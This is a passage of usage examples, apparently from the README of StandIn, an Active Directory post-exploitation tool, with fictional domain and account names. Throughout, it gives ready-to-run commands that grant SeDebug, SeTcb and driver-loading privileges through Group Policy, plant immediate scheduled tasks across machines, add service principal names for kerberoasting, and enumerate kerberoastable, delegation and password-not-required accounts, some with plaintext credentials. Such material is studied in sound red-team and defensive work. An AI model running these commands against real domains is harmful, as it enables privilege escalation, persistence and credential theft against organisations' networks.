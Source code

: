 ```
StandIn.exe --gpo --filter ArcanePolicy --setuserrights JCurwen --grant "SeTcbPrivilege,SeDebugPrivilege"
StandIn.exe --gpo --filter ArcanePolicy --setuserrights JCurwen --grant SeLoadDriverPrivilege --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add user/computer immediate task and optionally filter
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype computer --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt"
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype computer --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt" --target Rllyeh.redhook.local
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype user --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt" --target "REDHOOK\RBloch" --targetsid S-1-5-21-315358687-3711474269-2098994107-1106
StandIn.exe --gpo --filter ArcanePolicy --taskname LiberInvestigationis --tasktype computer --author "REDHOOK\JCurwen" --command "C:\Windows\System32\notepad.exe" --args "C:\Mysteriis\CultesDesGoules.txt" --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Increment either the user or computer GPO version number for the AD object
StandIn.exe --gpo --filter ArcanePolicy --increase --tasktype user
StandIn.exe --gpo --filter ArcanePolicy --increase --tasktype computer --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Read Default Domain Policy
StandIn.exe --policy
StandIn.exe --policy --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Perform ADIDNS searches
StandIn.exe --dns --limit 20
StandIn.exe --dns --filter SQL --limit 10
StandIn.exe --dns --forest --domain redhook --user RFludd --pass Cl4vi$Alchemi4e
StandIn.exe --dns --legacy --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# List account that have PASSWD_NOTREQD set
StandIn.exe --passnotreq
StandIn.exe --passnotreq --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Get user and SID from either a SID or a samAccountName
StandIn.exe --sid JCurwen
StandIn.exe --sid S-1-5-21-315358687-3711474269-2098994107-1105 --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Get a list of all kerberoastable accounts
StandIn.exe --spn
StandIn.exe --spn --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Add/remove SPN from samAccountName
StandIn.exe --setspn RSuydam --principal MSSQL/VermisMysteriis --add
StandIn.exe --setspn RSuydam --principal MSSQL/VermisMysteriis --remove --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# List all accounts with unconstrained & constrained delegation privileges
StandIn.exe --delegation
StandIn.exe --delegation --domain redhook --user RFludd --pass Cl4vi$Alchemi4e

# Get a list of all domain controllers
StandIn.exe --dc

# Get a list of all trust relationships in the current domain
StandIn.exe --trust

# List members of group or list user group membership
```